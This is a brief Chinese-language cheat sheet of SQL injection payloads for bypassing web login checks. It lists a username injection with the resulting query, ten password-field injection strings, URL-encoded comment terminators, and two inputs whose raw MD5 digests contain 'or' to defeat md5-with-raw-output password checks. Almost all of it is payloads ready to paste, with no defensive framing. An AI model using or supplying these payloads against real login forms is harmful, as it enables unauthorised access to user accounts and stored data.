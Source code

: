 ## 用户名注入
　　
> `a' or 't'='t`
    
    传入以后为 ：`name='username' --> name='a' or 't'='t'` 这样单引号或双引号 刚好闭合

    `SELECT * FROM users WHERE name = 'a' OR 't'='t';`

## 密码注入

1. `"or "a"="a`
2. `'.).or.('.a.'='.a`
3. `or 1=1--`
4. `'or 1=1--`
5. `a'or' 1=1--`
6. `"or 1=1--`
7. `'or.'a.'='a`
8. `"or"="a'='a`
9. `'or''='`
10. `'or'='or'`

## 三种注释
```
--+
%23#
--%20-
```

## `md5(，TRUE)`函数和加密,使结果返回`>0`
```
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8

和

content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b

```